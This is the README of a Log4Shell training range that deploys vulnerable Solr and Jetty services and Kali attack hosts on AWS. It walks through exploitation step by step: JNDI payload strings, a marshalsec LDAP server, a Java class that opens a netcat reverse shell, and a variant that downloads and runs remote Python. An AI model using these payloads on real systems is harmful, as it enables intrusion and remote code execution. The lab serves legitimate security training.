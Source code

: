 # Wat?

This is a very small cloud hosted range for experimenting with the Log4Shell vulnerability.  It can automatically deploy the range to your AWS account, and configure it to contain:

* Vulnerable services
* Attack hosts (Kali)
* A Guacamole server simplifying interaction with the range

People connecting to your range will need nothing more than a webbrowser.  You will need Terraform and Ansible to deploy the range.

# Deploying the Range

First, deploy the infrastructure.  Check out `terraform/README.md`.

Then, configure it.  Check out `ansible/README.md`.

## Important Note About Multiple Deployments

The Guac server gets a LetsEncrypt certificate, and there are rate limits on certificates...  https://letsencrypt.org/docs/rate-limits/  For instance if you deploy the range, then destroy it, five times, you've used your allocation for a week for the domain name you're using.

# Connecting to the Range

A Guacamole server will be available at the domain you setup when deploying the infrastructure.  It'll even have a nice Let's Encrypt cert, so hit it at https.

Alternatively, you can SSH into the hosts.  If you're in the ansible directory you can run something like the following to SSH to them through the jump host:

`eval $(../scripts/get_ssh_cmd.py "kali_host_01")`

That host name comes from the Ansible hosts file - the `get_ssh_cmd.py` builds an SSH command based on the host info...

![Network Map](log4j_range_diagram.png)

# Vulnerable Services

After deploying the range and connecting, you'll have a couple vulnerable services at your disposal.

## Solr

`http://{solr-addr}:8983/solr/admin/cores?anything=${jndi...}`

`http://{solr-addr}:8983/solr/admin/configs?anything=${jndi...}`

`http://{solr-addr}:8983/solr/admin/collections?anything=${jndi...}`

This project uses Solr version 8.8.0 from Docker Hub.  The version of Java is new enough that it requires a system property be misconfigured to work...  It needs `com.sun.jndi.ldap.object.trustURLCodebase=true`.

## Jetty

`http://{solr-addr}/?q=${jndi...}`

`curl -H "User-Agent: ${jndi...}"`

This project uses the vulnerable Jetty server included via [this project](https://github.com/kc0bfv/vulnerableJettyLog4Shell)

# Exploiting Log4J

The Kali box's Desktop README has some tips in it, and the address of the vulnerable server.  First, you'll want to nmap it to make sure you understand what you're going after.  Then you might hit the services in your browser to learn a little more...  After that, setup a callback server and send the exploit.

# Setting up a Callback Server

First - thank you to SANS who I stole this from.  https://gist.github.com/joswr1ght/fb361f1f1e58307048aae5c0f38701e4

From a kali box:

```
cd marshalsec
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://{kali_box_ip}:8080/#Log4JCallback"
```

From that kali box in a separate terminal:

```
python -m http.server 8080
```

Separately, on that kali box, in the same directory your webserver is now running in, drop this code into Log4JCallback.java:

```
public class Log4JCallback {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc {kali_box_ip} 8081 -e /bin/bash");
        } catch (Exception err) {
            err.printStackTrace();
        }
    }
}
```

Now compile that with `javac Log4JCallback.java`, and setup a netcat listener as mentioned in your code:

```
nc -v -l -p 8081
```

Now you've got three listeners setup.  Next you're going to send the message to the vulnerable server - the format is: `${jndi:ldap://{kali_box_ip}:1389/Log4JCallback}`.  The vulnerable server is going to log that jndi string, and Log4J is going to parse it and visit the ldap server on your Kali box at port 1389.  There it will find the marshalsec LDAP server, which will tell it to look for a Java class at a remote location, specifically your Kali box on port 8080.  The class will be requested from your Python webserver on port 8080, and will get executed on load.  That will run the "exec nc" code, calling back with a shell to your listener on port 8081.  You'll see the connections come in - with the last on your netcat port 8081 listener, and that last will be your remote shell.

You can also call back to a metasploit `web_delivery` handler by using a Log4JCallback that runs something like: `java.lang.Runtime.getRuntime().exec(new String[] {"python3", "-c", "import urllib.request; exec(urllib.request.urlopen('http://{kali_box_ip}:8080/{MSFending}').read())"});`

# Improvements Needed

For defense:

1. Blue team routing is too tied in with the red team.  They are both in the same VPC so the subnets default to allowing all connections to/from everywhere...  Putting blue and red in separate VPCs with peering rules between them might allow a more real-world division.
2. Blue team needs a security onion box so they can monitor what's going on.  This may require a specific routing device in the infrastructure too.  The security onion monitoring can get attached to capture all the info headed to a routing device interface.
3. I have no idea how this meets or fails to meet security standards that might be required at my workplace.
